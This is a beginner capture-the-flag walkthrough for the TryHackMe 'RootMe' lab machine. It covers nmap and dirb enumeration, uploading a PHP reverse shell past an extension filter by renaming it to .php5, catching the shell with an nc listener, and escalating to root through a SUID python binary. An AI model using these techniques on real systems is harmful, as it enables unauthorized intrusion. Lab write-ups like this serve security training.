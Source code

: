 # RootMe
A ctf for beginners, can you root me?
![](Images/default_tryhackme.png)
## Task 2
First, let's get information about the target. Here is the **nmap** scan.
```
# Nmap 7.91 scan initiated Mon Jun  7 14:53:05 2021 as: nmap -sC -sV -A -oN nmap/scan 10.10.88.87
Nmap scan report for 10.10.88.87
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  7 14:53:41 2021 -- 1 IP address (1 host up) scanned in 35.82 seconds
```
Seems like we got ssh port open and http port. Let's take look into that web site.

![](Images/web.png)

1. Scan the machine, how many ports are open?
```
 2
```
2. What version of Apache is running? 
```
2.4.29
```
1. What service is running on port 22? 
```
ssh
```
5. What is the hidden directory?

Let's run a dirb or gobuster to find the hidden directory on our website. 

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.scan
START_TIME: Mon Jun  7 15:01:41 2021
URL_BASE: http://10.10.88.87/
WORDLIST_FILES: /opt/seclist/Discovery/Web-Content/raft-medium-directories.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 29984

---- Scanning URL: http://10.10.88.87/ ----
==> DIRECTORY: http://10.10.88.87/js/
==> DIRECTORY: http://10.10.88.87/css/
==> DIRECTORY: http://10.10.88.87/uploads/
==> DIRECTORY: http://10.10.88.87/panel/
```
Seems like we got uploads and something call panel. When we take a look into that panel directory. You can see upload section. This must be our **hidden directory**.

![](Images/panel.png)

## Task 3
Now we got a upload directory. We can use a php-reverse-shell to get a shell. 

We can't upload php files to this website.I tried other extensions such as jpg, and that uploaded successfully. I tried changing the magic number from PHP to jpg of “FF F8 FF DB“. That uploaded the php reverse-shell script but it won’t execute. Then, I realized maybe it is just filtering the .php extension, so I renamed the script to a .php5 extension. And that uploaded successfully and executed and give me a shell. 

![](Images/shell.png)
```bash
┌─[visith@parrot]─[~/CTF/thm/root_me]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.53] from (UNKNOWN) [10.10.88.87] 35046
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:47:11 up 26 min,  0 users,  load average: 0.00, 0.02, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@rootme:/$ ls
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
www-data@rootme:/$ 
```

Looks like we got a lot of directories. we can go on by one and search for user.txt or you can use this find command. It will make it fast.
```bash
find / -type f -name user.txt 2>/dev/null
```
Let's see this find command in action.
```bash
www-data@rootme:/$ find / -type f -name user.txt 2>/dev/null
find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$ cat /var/www/user.txt             
cat /var/www/user.txt
THM{flag_here}
```
Now we need to get to root user. In their hints they told about SUID. Let's take look into it.

```bash
www-data@rootme:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
Looks like python little bit sus. Let's search about python SUID execution on GTFObins. 

![](Images/suid.png)

Let's do it. First you need to get /usr/bin/ directory to execute our command. 
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Let's see it in action.
```bash
www-data@rootme:/usr/bin$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
#  find / -type f -name root.txt
 find / -type f -name root.txt
/root/root.txt
# cat /root/root.txt
cat /root/root.txt
THM{Flag_here}
# 
```

We pwn it... Thx for reading 
![](Images/tenor.gif)
